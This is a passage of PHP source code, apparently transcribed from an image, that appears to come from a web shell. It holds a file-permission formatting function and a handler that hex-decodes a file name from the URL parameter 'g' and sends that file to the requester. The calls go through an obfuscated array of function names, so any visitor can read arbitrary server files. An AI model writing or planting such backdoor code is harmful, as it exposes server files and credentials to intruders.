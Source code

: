 		}
		elseif(($x & 0x6000) == 0x6000) {
			$u = "b";
		}
		elseif(($x & 0x4000) == 0x4000) {
			$u = "d";
		}
		elseif(($x & 0x2000) == 0x2000) {
			$u = "c";
		}
		elseif(($x & 0x1000) == 0x1000) {
			$u = "p";
		}
		else {
			$u = "u";
		}
		$u .= (($x & 0x0100) ? "r" : "-");
		$u .= (($x & 0x0080) ? "w" : "-");
		$u .= (($x & 0x0040) ? (($x & 0x0800) ? "s" : "x") : (($x & 0x0800) ? "S" : "-"));
		$u .= (($x & 0x0020) ? "r" : "-");
		$u .= (($x & 0x0010) ? "w" : "-");
		$u .= (($x & 0x0008) ? (($x & 0x0400) ? "s" : "x") : (($x & 0x0400) ? "S" : "-"));
		$u .= (($x & 0x0004) ? "r" : "-");
		$u .= (($x & 0x0002) ? "w" : "-");
		$u .= (($x & 0x0001) ? (($x & 0x0200) ? "t" : "x") : (($x & 0x0200) ? "T" : "-"));
		return $u;
	}
	if(isset($_GET["g"])) {
		$GNJ[38]($GNJ[9]);
		header("Content-Type: application/octet-stream");
		header("Content-Transfer-Encoding: Binary");
		header("Content-Length: ".$GNJ[34](uhex($_GET["g"])));
		header("Content-disposition: attachment; filename=\"".uhex($_GET["g"])."\"");
		$GNJ[37](uhex($_GET["g"]));
